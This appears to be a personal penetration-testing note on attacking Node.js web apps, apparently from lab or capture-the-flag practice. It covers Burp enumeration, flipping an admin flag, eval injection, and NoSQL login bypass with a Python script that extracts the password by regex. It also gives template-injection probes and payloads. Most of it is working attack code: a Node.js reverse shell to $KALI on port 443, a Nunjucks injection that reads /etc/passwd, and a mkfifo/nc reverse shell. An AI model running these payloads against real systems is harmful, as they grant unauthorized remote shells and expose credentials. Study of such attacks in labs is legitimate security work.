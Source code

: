 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Enumeration

Capture url request in BurpSuite:

![[Pasted image 20220228102713.png]]
Take a look at /api/users

Take the list of users, and a short list of passwords, and attack the login request.

Look for something that would need elevated privilges, like /api/settings.

```
{"color-theme":"light","lang":"en","admin":false}
```

Change admin value to true:

```
{"color-theme":"dark","admin":true}
```


#### Node.js (Express middleware)
Below we're able to test this input box by adding 1 + 1
![[Pasted image 20220304092318.png]]

and seeing the result of "2".
![[Pasted image 20220304092332.png]]

Let's try something more complicated:

```node - kali
(function(){
   return 2+2;
})();
```

![[Pasted image 20220304092443.png]]

and we see this also works
![[Pasted image 20220304092547.png]]

```node - kali
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "$KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![[rlwrap]]

#### NodeBlog
Details on $ne
https://docs.mongodb.com/manual/reference/operator/query/ne/

```
http://$TARGET:5000/login
```

Capture in Burp, change Content-Type to json:

```BurpSuite - kali
Content-Type: application/json
```

Change the data body to json format:

```BurpSuite - kali
{"user":"admin","password":"admin"}
```

Send, notice we still get invalid password.  If we modify the username, we get invalid username, working as intended.

```BurpSuite - kali
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

```bash - kali
mousepad login.py
```

```python - kali
import requests
import json
import string
import sys


def login(pw):
	payload = '{ "$regex":"%s"}' % pw
	data = {"user":"admin", "password": json.loads(payload)}
	r=requests.post("http://$TARGET:5000/login",json=data)
	if "Invalid Password" in r.text:
		return False
	return True

password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f"\r{password}{i}")
		if login(f"{password}{i}"):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f"\r{password}\r\n")
				sys.stdout.flush()
				stop=True
				break
			break
```

#### Command injection

First, we notice how the our input for the newsletter is reflected back to us.

![[Pasted image 20221115132135.png]]

Test for command injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

![[Pasted image 20221115132357.png]]

Capture in Burp, send to repeater.

#### Node JS command Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

POC:
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

Final payload:
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@example.domain"
}
```

![[rlwrap]]

Reverse Shell
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f')\")()}}@example.domain"
}
```

#### package.json
If found, evaluate for vulnerable dependencies.  Maybe this is something we can combine with Dependency-Check?!

![[Pasted image 20220905142745.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
